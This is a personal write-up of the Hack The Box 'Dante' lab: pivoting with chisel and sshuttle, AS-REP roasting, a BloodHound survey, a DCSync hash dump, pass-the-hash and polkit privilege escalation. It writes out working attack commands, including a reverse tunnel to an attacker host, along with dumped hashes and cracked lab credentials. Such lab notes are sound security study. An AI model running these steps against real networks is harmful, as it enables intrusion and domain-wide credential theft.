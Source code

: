 # Admin Subnet:

# Host 172.16.2.5:

I cannot figure out why I am unable to access the internal admin subnet using sshuttle. My command currently is:
```
proxychains sshuttle --dns -vr katwamba@172.16.1.20 172.16.2.0/24 --ssh-cmd "ssh -i /home/cl3al/Documents/priv_keys/id_rsa"
```

It fails stating that the path I specified for the key is not in the paths it seems to look for by default. Not sure why it does this.

SSH tunneling and SShuttle are used when SSH is available. Chisel is good for Windows and creates a tunnel from scratch where SSH may not be available. In order for me to finally be able to get an .exe file for chisel on Windows, I had to build it first with Go using the following command while in the "opt/chisel" directory:
```
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" .
```
Then:
```
#Run command on attacker machine (10.10.16.101)
./chisel server -p 8001 --reverse

#Run command on Win DC01 machine (172.16.1.20) after transferring the built chisel.exe file.
./chisel .exe client 10.10.16.101:8001 R:389:socks


```

Finally, I needed to add the new reverse proxy and the new open port to the etc/proxychains4.conf file. I figured out that the port the needed to be set in proxychains (below) and use for the remote connection above from the victim needed to be an open port. From there, I was then even able to run nmap locally on my kali machine by disabling the first proxy (commenting it out) and running **_proxychains_** before the command.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.53.png)
**_Reference: <https://ap3x.github.io/posts/pivoting-with-chisel/>_**

**_SOMETIMES, YOU MAY NEED TO TRY DIFFERENT FORWARDED PORT UNTIL IT WORKS. 389 GAME ME ISSUES AND I HAD TO TRY 3333_**

Next, I need to conduct AS\_REP Roasting using Rubeus.exe locally on DC01 (suggested unfortunately by a discord member providing me with more help than requested). I can use an impacket tool called **_GetNPUsers_** to accomplish this and get the ticket granting ticket (TGT) using a username.:
```
proxychains impacket-GetNPUsers dante/asmith -dc-ip=172.16.2.5

and then I need to enter local password to continue when prompted.
However, I will use the following command to automate this from a file with all usernames.:

proxychains impacket-GetNPUsers dante/-no-pass -usersfile /home/cl3al/Desktop/userfile.txt -dc-ip=172.16.2.5
```

![](./_resources/HTB_Pro_Lab_Dante.resources/image.52.png)
Nmap scan done locally as well:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.54.png)

After conducting an AS\_REP ROAST attack, I found the following TGT which can now be cracked with john!!:
```
$krb5asrep$23$jbercov@DANTE:2107e3f6021fb427d8109ae16152bd52$405302c64d77f77ae979ced680333f26c29d75bce5ec750220436dbb8648dd556236080d8b9b67e9334f5b9738ffaa70c566e0a54a1ca755ddb004a64492f7f87661473300a495f8cdf8e6466fbbf9f2521fe0f543026fbdbf27ab301d228f75c8189919b550a427988de7d3d8f135c6bef7115d62d75159fce25a8d31205b76771c52e37eac9ef7feff6af8c54259d9bcbe42fe0df9d826e09f28aa4805686f93ab96f029ae2df8a4c848a3c76978cd8fa79d9865e40f9627d10131774ee705f0f6ac8860f24c5132d0dea0a92cfec8dfb979c7afcbe7da983c83803db86a96bfd3e861
```

After using john to crack the above hash, I found the password for jbercov@dante:
```
username: dante\jbercov
password: myspace7
```

![](./_resources/HTB_Pro_Lab_Dante.resources/image.55.png)

Next, I ran bloodhound-python to gather all information for Active Directory and the zip file is stored in my root directory. The command I used once again was.:
```
proxychains bloodhound-python -d dante.admin -v --zip -c All -u jbercov -p myspace7 -ns 172.16.2.5 --dns-tcp
```

I now need to investigate this in Bloodhound to see what I can find next. In checking, bloodhound, I see that DCsync is available for me to use for jbercov to domain admin as shown below.:

![](./_resources/HTB_Pro_Lab_Dante.resources/image.57.png)
In searching for "dcsync" in msfconsole, I came across and used the following module which retrieved hashes.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.56.png)

Raw Data:
```
[*] Running for 172.16.2.5...
[-] 172.16.2.5 - RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] 172.16.2.5 - Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] 172.16.2.5 - Using the DRSUAPI method to get NTDS.DIT secrets
[+] Administrator:500:aad3b435b51404eeaad3b435b51404ee:4c827b7074e99eefd49d05872185f7f8:::
[+] Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2e5f00bc433acee0ae72f622450bd63c:::
[+] DANTE.ADMIN\jbercov:1106:aad3b435b51404eeaad3b435b51404ee:2747def689b576780fe2339fd596688c:::
[+] DANTE-DC02$:1000:aad3b435b51404eeaad3b435b51404ee:ca139ee53927fb001c71aa2046260b45:::
[*] 172.16.2.5 - Kerberos keys grabbed
[+] Administrator:aes256-cts-hmac-sha1-96:0652a9eb0b8463a8ca287fc5d099076fbbd5f1d4bc0b94466ccbcc5c4a186095
[+] Administrator:aes128-cts-hmac-sha1-96:08f140624c46af979044dde5fff44cfd
[+] Administrator:des-cbc-md5:8ac752cea84f4a10
[+] krbtgt:aes256-cts-hmac-sha1-96:a696318416d7e5d58b1b5763f1a9b7f2aa23ca743ac3b16990e5069426d4bc46
[+] krbtgt:aes128-cts-hmac-sha1-96:783ecc93806090e2b21d88160905dc36
[+] krbtgt:des-cbc-md5:dcbff8a80b5b343e
[+] DANTE.ADMIN\jbercov:aes256-cts-hmac-sha1-96:5b4b2e67112ac898f13fc8b686c07a43655c5b88c9ba7e5b48b1383bc5b3a3b6
[+] DANTE.ADMIN\jbercov:aes128-cts-hmac-sha1-96:489ca03ed99b1cb73e7a28c242328d0d
[+] DANTE.ADMIN\jbercov:des-cbc-md5:c7e08938cb7f929d
[+] DANTE-DC02$:aes256-cts-hmac-sha1-96:7a7d7c0cc314fc7604749672d6e9d5feb709d765ac6e9985fffb5aaa223c5e15
[+] DANTE-DC02$:aes128-cts-hmac-sha1-96:8036c96874a8d29a122ea35c408cf660
[+] DANTE-DC02$:des-cbc-md5:a25d94f1df0b195e
```

Using evil-winrm, I was able to establish a connection to Jacob's account and found the next flag in the Desktop directory.:
```
proxychains evil-winrm -i 172.16.2.5 -u jbercov -H 2747def689b576780fe2339fd596688c  <----nthash (right one or last one from the above list)
```

I downloaded the flag.txt file as shown here.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.58.png)
flag:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.59.png)

```
DANTE{Im_too_hot_Im_K3rb3r045TinG!}
```

I then quickly found the second flag.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.60.png)

```
DANTE{DC_or_Marvel?}
```

I also found a note.txt file which contained the following tip regarding the previous discovery of the internal admin subnet.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.61.png)
Lastly, I inspected the Jenkins.bat file in the Documents directory for the Administrator which revealed the following.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.62.png)
Raw data:
```
Admin_129834765
SamsungOctober102030
```

**Host 172.16.2.101:**
![](./_resources/HTB_Pro_Lab_Dante.resources/image.93.png)
I missed this before but in running more nmap scans, this system stands out among all other failed hosts. This is nix05 a Linux machine. Here are some more details.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.94.png)![](./_resources/HTB_Pro_Lab_Dante.resources/image.95.png)
\*\*\*I need to use katwamba's id\_rsa key to access the .20 DC. Then, change katwamab's password and access the machine via rdp to setup chisel and add the socks port to etc/proxychains4.conf. From there, I can continue investigating .2.101 (this nix05) machine. Comment out 9999 and uncomment 389 socks ports.\*\*\*

It seems that the only port that appears to be open is SSH as shown below.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.96.png)

```
PORT  STATE SERVICE VERSION
22/tcp open  ssh    OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|  3072 20d08e88eedbb4cf35b7dbcb74a0500b (RSA)
|  256 db33b77b64704612290236b3c5cf963d (ECDSA)
|_  256 66bb0d63a81e4c24fe2c7e9e3a0300e6 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.00 seconds
```

So after getting a nude from discord, the way to access this machine is with a user and password from [172.16.1.12](http://172.16.1.12) that I saw but totally did not think much of it. The information is:
```
uname: julian
password hash: julian:$1$CrackMe$U93HdchOpEUP9iUxGVIvq/:18439:0:99999:7:::
cracked hash: manchesterunited
```

The combined unshadowed file is on the Desktop as: **_results.1.12.txt_** and just needs to be cracked with john which can take some time.

![](./_resources/HTB_Pro_Lab_Dante.resources/image.97.png)

Vulnerable to CVE-2021-4034

Vulnerable to CVE-2021-3560

Using the first CVE once again to quickly escalate privileges, I obtained the root flag. However, I have yet to find the user flag here. Also, I saved the passwd and shadow file information to my Desktop as **_shadow.2.101.txt_** and **_passwd.2.101.txt_** respectively. I can use the unshadow command to combine both for john to then crack. Check the history for the correct command.

![](./_resources/HTB_Pro_Lab_Dante.resources/image.98.png)
Apparently, I unintendedly escalated privs NOT through the BoF lol. I will wanna redo this so I can learn this one. Check John Hammond's video on it and also check out: <https://valsamaras.medium.com/introduction-to-x64-linux-binary-exploitation-part-1-14ad4a27aeef> for resources. Apart from that, this is the only flag on the machine apparently and the sql01 credentials are NOT here which is another conundrum. I will need to figure that out somehow.

I was able to transfer linpeas and use the following commands to perform a network enumeration scan which now allowed me to discover the [172.16.2.6](http://172.16.2.6) machine. :
```
chmod +x linpeas.sh
./linpeas.sh -d 172.16.2.0/24
```
